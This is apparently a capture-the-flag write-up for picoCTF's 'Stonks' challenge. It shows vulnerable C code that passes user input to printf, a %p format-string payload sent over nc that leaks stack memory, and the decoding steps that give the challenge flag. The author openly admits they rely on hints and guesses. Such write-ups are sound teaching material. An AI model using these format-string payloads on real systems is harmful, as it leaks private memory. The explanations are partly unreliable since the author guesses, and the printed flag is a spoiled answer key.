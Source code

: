 # Stonks

DISCLAIMER: I got big hints from a friend. There is no way I'd have been able to solve this 😅. I'm also not entirely sure how exactly this challenge worked... I'm not qualified to write a writeup for this challenge 😅.

## Overview:

Category: Binary Exploitation
Points: 20

## Description

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](./vuln.c) `nc mercury.picoctf.net 53437`

## Hints

1. Okay, maybe I'd believe you if you find my API key.

## Stuff I Was Told (Since Pico is Over)

* Print pointers
* 👀 carefully
* That block of code pasted below

## Approach

Connect to the shell with `nc mercury.picoctf.net 53437`

Take a look at 

```c
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```

and notice the `printf(user_buff);` (I was kinda directed to this so I'm not entirely sure why it's this specifically that's important).

```bash
What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
Portfolio as of Thu Apr  8 01:52:11 UTC 2021


2 shares of H
5 shares of AF
34 shares of O
25 shares of SOF
229 shares of YQWO
Goodbye!
```

This part:

```text
0x8b953900x804b0000x80489c30xf7fa5d800xffffffff0x10x8b931600xf7fb31100xf7fa5dc7(nil)0x8b941800x20x8b953700x8b953900x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x346364620x616535320xffbd007d
```

looks like hex. I reformatted it in notepad (and also took out everything before `(nil)` which I guess was padding or something):

```text
8b9418028b953708b953906f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3463646261653532ffbd007d
```

and jammed it into [HxD](https://mh-nexus.de/en/hxd/) which gives:

```text
‹”‹•7¹Socip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}
```

it looks like `ocip{FTC0l_I4_t5m_ll0m_y_y3n4cdbae52ÿ½�}` is the flag except each 4 character block is reversed (little endian? also this is just a guess, I don't actually know)

I wrote a [script](./script.py) to output the proper flag.

this outputted `picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}�½ÿ`

## Flag

picoCTF{I_l05t_4ll_my_m0n3y_bdc425ea}
